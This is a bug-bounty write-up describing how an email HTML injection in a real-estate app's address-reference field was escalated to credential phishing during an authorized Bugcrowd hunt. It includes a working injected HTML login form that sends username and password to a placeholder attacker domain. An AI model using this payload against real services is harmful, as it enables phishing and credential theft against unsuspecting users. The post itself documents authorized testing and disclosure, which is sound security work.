

# How I Escalated a Simple Email HTML Injection from P4 to P3
Hey everyone — I’m Pavan (aka eh_pavan).
This is my first blog post. In it I explain how I escalated a simple Email HTML Injection from P4 (low) to P3 (medium) while hunting on a Bugcrowd program. I’ve included the discovery steps, the payloads I used, the proof-of-concept. Sorry for any small mistakes I’m new to blogging, but I hope you learn something from my process.

## Discovery Phase
i selected the one of the Program on Bugcrowd with aim of hunt for 1 month in same program, after completing my recon phase which it taken 2 days of, then i directly i jumped into the Main Application after playing some time on Setting section, i noticed There is an option to add Address which related to a site location(as it was realesting app).

ahh there is also feature called add reference address too, which means add the referencer for our site location, i casually added my Bugcrowd alias email with basic Html payload `<i>test everywhere</i>`

Banggg i got an email notification reflecting our injected html code with *test everywhere* (italic), classic Email HTML injection right, ahh i tried to report it but my hacker insticts signal me to try to increase the impact as per the Bugcrowd VRT Email HTML Injection is considered as P4, so there is no of increasing the impact. But i tried something wierd !!

## The Impact chaining, how I thought about escalation

I read a write-up that showed how HTML injection in emails can be abused to phish credentials. Many programs exclude generic phishing, but my goal was to demonstrate additional impact.

Key observations that enabled escalation:
* The vulnerable field allowed arbitrary HTML (no character limit).
* Notification emails reflected the injected HTML and rendered it in the victim’s mail client.
* Modern browsers have autofill features for forms. While browsers do not autofill passwords in untrusted contexts automatically, a realistic looking inline form in an email can social-engineer users to enter credentials.

With those points in mind, I tried injecting a full HTML form into the vulnerable field.

### Proof Of Concept 

the steps are simple right all we need his the html code to inject and victim email, so i tried to inject whole html code in Vulnerable field which look like this:

```
<h3>Hello Dear, User your account is Blocked Please fill the below form to unlock</h3>
<form action="http://<attacker-domain>" method="GET">
<input type="username" name="user"><input type="password" name="pass"> 
<button>submit</button></form>
```
What happened:
* The <h3> rendered in the notification email.
* The injected <form> appeared in the email body. When a user entered credentials and clicked Submit, the browser made a request to http://<attacker-domain>/collect with user and pass in the query string (because method="GET"), which was logged on the attacker-controlled server.

this when the victim entered his credentials 


successfully this credentials are preserved in attacker-domain logs


## Outcome 
I reported the finding to the program with the reproduction steps and PoC. The triage team agreed that the impact justified a P3 (medium) classification however, the issue was later marked as a duplicate of an existing report. but the escalation reasoning was accepted. i though i will get my first bounty!😒


